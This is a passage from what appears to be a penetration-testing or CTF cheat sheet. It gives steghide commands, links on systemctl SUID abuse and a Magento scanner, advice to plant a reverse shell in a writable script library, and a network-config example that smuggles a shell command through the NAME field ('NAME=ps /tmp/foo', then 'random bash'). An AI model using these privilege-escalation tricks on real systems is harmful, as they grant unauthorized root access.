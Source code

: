 
#### Hijack Module/File Used by Script

* If you identify a script that is running a library/file, identify if you have write access to the file, then you can upload a reverse shell in there for example


<br>

#### Stenography Challenge

```
apt-get install steghide
```

```
steghide extract -sf <JPG Image File Name>
```


<br>


#### SUID - SystemCtl


* Link - https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49


<br>

#### NAME Configuration Parameter Command Injection

* https://bugzilla.redhat.com/show_bug.cgi?id=1697473

* There is a space in the NAME parameter:

```
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
```

* Exploit:

```
Run the sh script and when prompted to enter the NAME value enter:

random bash
```

<br>


#### Magento

* https://github.com/steverobbins/magescan
